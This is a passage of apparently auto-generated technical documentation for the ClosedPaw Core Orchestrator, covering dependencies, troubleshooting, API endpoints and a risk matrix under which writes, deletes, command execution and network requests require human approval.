- [main.py](file://backend/app/main.py#L265-L299)
- [main.py](file://backend/app/main.py#L322-L340)
- [test_security.py](file://backend/tests/test_security.py#L159-L189)

## Dependency Analysis
The Core Orchestrator depends on:
- Agent Manager for sandboxed skill execution.
- Provider Manager for multi-provider LLM operations.
- Security Module for input validation and rate limiting.
- Channels Manager for multi-channel integration (external to orchestrator).
- FastAPI application lifecycle for startup/shutdown.



**Diagram sources**
- [main.py](file://backend/app/main.py#L14-L16)
- [agent_manager.py](file://backend/app/core/agent_manager.py#L65-L98)
- [providers.py](file://backend/app/core/providers.py#L418-L483)
- [security.py](file://backend/app/core/security.py#L35-L107)

**Section sources**
- [main.py](file://backend/app/main.py#L14-L16)
- [agent_manager.py](file://backend/app/core/agent_manager.py#L65-L98)
- [providers.py](file://backend/app/core/providers.py#L418-L483)
- [security.py](file://backend/app/core/security.py#L35-L107)

## Performance Considerations
- Asynchronous execution: Actions are executed asynchronously to avoid blocking the main thread.
- Timeouts: Ollama calls and model switches include explicit timeouts to prevent hangs.
- Pending action wait: Shutdown waits briefly for executing actions to complete.
- Rate limiting: Integrated rate limiting prevents abuse and protects downstream services.
- **Enhanced**: Expanded action validation maintains performance with efficient type mapping and security assessment algorithms.

## Troubleshooting Guide
Common issues and resolutions:
- Ollama connectivity failures:
  - Verify local Ollama service is reachable on loopback interface.
  - Check model availability via tags endpoint.
- Action stuck in PENDING:
  - Confirm HITL approval via approval endpoint.
  - Check audit logs for rejection reasons.
- Execution errors:
  - Review action result and error fields.
  - Inspect audit logs for failure details.
- Graceful shutdown delays:
  - Pending actions are awaited; ensure actions complete or cancel appropriately.
- **Enhanced**: Action validation failures:
  - Verify action type mappings are correct for new types (file_write, file_delete, command_exec, network_request).
  - Check security level calculations for edge cases in expanded type support.

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L131-L144)
- [orchestrator.py](file://backend/app/core/orchestrator.py#L463-L475)
- [main.py](file://backend/app/main.py#L101-L129)

## Conclusion
The Core Orchestrator is the central nervous system of the ClosedPaw system, enforcing Zero-Trust security through automatic security classification, human-in-the-loop approvals, robust audit logging, and sandboxed execution. Its singleton pattern, asynchronous execution model, and integration with security and provider modules make it a resilient and secure foundation for AI-assisted operations.

**Enhanced** Expanded with comprehensive action type mappings including file_write, file_delete, command_exec, and network_request, providing improved action tracking capabilities and more accurate security level assessment for diverse operational scenarios.

## Appendices

### API Endpoints Related to Orchestrator
- POST /api/chat: Submits a CHAT action and returns immediate or pending status.
- POST /api/models/switch: Switches to a specified model with validation.
- POST /api/actions: Submits a generic action with automatic security classification.
- GET /api/actions/pending: Lists pending actions requiring approval.
- POST /api/actions/{action_id}/approve: Approves or rejects a pending action.
- GET /api/actions/{action_id}: Retrieves status and results of a specific action.
- GET /api/audit-logs: Retrieves recent audit logs.

**Section sources**
- [main.py](file://backend/app/main.py#L131-L182)
- [main.py](file://backend/app/main.py#L213-L239)
- [main.py](file://backend/app/main.py#L241-L262)
- [main.py](file://backend/app/main.py#L265-L299)
- [main.py](file://backend/app/main.py#L301-L319)
- [main.py](file://backend/app/main.py#L322-L340)

### Enhanced Action Validation API
**Enhanced** The validate_action method provides structured validation responses for Human-in-the-Loop workflows with expanded type support:

- Input format: `{"type": "action_type", "parameters": {...}}`
- Output format: ActionValidationResult with approval requirements and security levels
- **Expanded Type Mapping Support**:
  - File Operations: read, write, file_write, delete, file_delete
  - Command Execution: calculate, search, chat, skill, command_exec
  - Configuration: config
  - API Calls: api, network_request
- Approval decisions: HIGH/CRITICAL actions require approval, LOW/MEDIUM auto-approved

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L259-L297)
- [test_security.py](file://backend/tests/test_security.py#L159-L189)

### Security Level Assessment Matrix
**New** Comprehensive security classification for all supported action types:

| Action Type | Security Level | Approval Required | Risk Factors |
|-------------|----------------|-------------------|--------------|
| CHAT | LOW | No | Informational queries |
| FILE_OPERATION (read) | MEDIUM | No | File access within sandbox |
| FILE_OPERATION (write) | HIGH | Yes | File modification, potential data loss |
| FILE_OPERATION (delete) | HIGH | Yes | File deletion, data destruction |
| SKILL_EXECUTION (skill) | MEDIUM | No | Standard skill execution |
| SKILL_EXECUTION (command_exec) | HIGH | Yes | System command execution |
| API_CALL (api) | MEDIUM | No | Standard API communication |
| API_CALL (network_request) | HIGH | Yes | External network requests |
| CONFIG_CHANGE | CRITICAL | Yes | System configuration changes |

**Section sources**
- [orchestrator.py](file://backend/app/core/orchestrator.py#L233-L257)
- [test_security.py](file://backend/tests/test_security.py#L164-L168)